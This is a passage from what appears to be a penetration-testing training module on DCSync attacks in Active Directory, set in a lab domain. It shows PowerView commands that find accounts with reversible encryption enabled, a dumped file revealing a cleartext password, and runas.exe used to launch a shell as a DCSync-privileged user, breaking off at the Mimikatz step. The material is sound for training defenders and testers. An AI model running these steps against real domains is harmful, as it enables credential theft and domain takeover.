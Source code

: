 ```powershell-session
```

We can see that one account, `proxyagent`, has the reversible encryption option set with PowerView as well:

#### Checking for Reversible Encryption Option using Get-DomainUser

DCSync

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

We will notice the tool decrypted the password and provided us with the cleartext value.

#### Displaying the Decrypted Password

DCSync

```shell-session
swmpdnky@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

I have been on a few engagements where all user accounts were stored using reversible encryption. Some clients may do this to be able to dump NTDS and perform periodic password strength audits without having to resort to offline password cracking.

We can perform the attack with Mimikatz as well. Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence, but that is outside the scope of this module.

Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

#### Using runas.exe

DCSync

```cmd-session
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```

From the newly spawned powershell session, we can perform the attack:

#### Performing the Attack with Mimikatz
